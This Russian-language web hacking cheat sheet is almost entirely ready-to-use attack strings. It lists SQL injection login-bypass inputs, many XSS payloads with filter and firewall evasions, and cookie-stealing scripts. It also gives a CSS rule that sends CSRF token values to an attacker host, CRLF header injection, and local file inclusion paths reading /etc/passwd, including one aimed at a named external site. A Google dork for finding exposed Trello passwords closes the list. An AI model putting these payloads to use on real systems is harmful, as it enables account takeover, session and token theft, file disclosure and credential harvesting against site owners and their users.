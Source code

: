 **SQL**

a - (Строковой входящий параметр) 
php?id=1'
php?id=1' —
b - (Числовой входящий параметр)
php?id=1 blablabla
php?id=-1
c - (Авторизация)
Под ником 'Admin' нам нужно вписать вместо него что то наподобие этого Admin' — 
Уязвимость в поле 'pass'
123' OR login='Admin' — 
d - (Оператор LIKE)
Вместо пароля просто ввести "%"

**XSS**

'":;<>/\[]<script><h1>
  
'';!--"<XSS>=&{()}`

< - &lt;
> - &gt;
& - &amp;
" - &quot;
' - &#039;

: - %3A
/ - %2F

<script>alert(5)</script>

"><script>alert(5)</script>

;alert()

<a href="javascript:alert(1)">

NULL <scri%00pt>alert()</scri%00pt>

TAB <svg+src="jav%09ascript:alert(1)">

Newline <script>//>%0Aalert(1);</script>

Carriage Return <script>//>%0Dalert(1);</script>

Spaces < s c r i p t > p r o m t ( 1 ) < / s c r i p t >

/#text= NAME'); alert(document.cookie+'

reflected XSS - /?report=javascript
%3aalert(document.domain)

php?email='-alert(document.domain)-'

<script>\u0061\u006C\u0065\u0072\u0074(I)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />

"><img src=x onerror=prompt(1);>

<script>a="get";b="URL";c="javascript:";d="alert(1);";eval(a+b+c+d);</script>

<form action="javascript:alert(document.location);"><input type="submit" /></form>

<iframe src="//www.youtube.com/embed/Ik9fCVkKeLg" frameborder="0" style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<div style="background:url('javascript:alert(1)')">

input[name=csrf_token][value=^a]{background-image:url('http://attack.com/log.php?a');}

XSS с помощью css:
<style>img{background-image:url('javascript:alert(1)')}</style>

Обход фаерволов:
<style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>

Polyglot XSS - Mathias Karlsson
" onclick=alert(document.cookie)//<button ‘ onclick=alert(document.cookie)//> */ alert(1)//

**Authentication bypass**
В процессе аутентификации при доступе к веб-сайту, посетив ссылку для отмены подписки.
PHPSESSID=xxx;

**Link filter protection bypass**
?url=site%E3%80%82com

**CRLF Injection**
GET /qwerty%0ASet-Cookie:%20test=qwerty;domain=.beepcar.ru HTTP/1.1

**robots.txt**
Disallow - Запрет доступа всех роботов 
Allow - Разрешает доступ к определенной части ресурса

**LFI**
/index.php?file=/../../../../../../etc/passwd 

file=/../../../../../../etc/passwd.php%00 

file=/../../../../../../etc/passwd%00.php 

index.txt при условии, что приписывается окончание .php 
index.txt/././././../...«(100-10)/2 раз».../././ 

php://filter/convert.base64-encode/resource=index 
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

**google dork**
«site:trello.com AND intext:@gmail\.com AND intext:password»
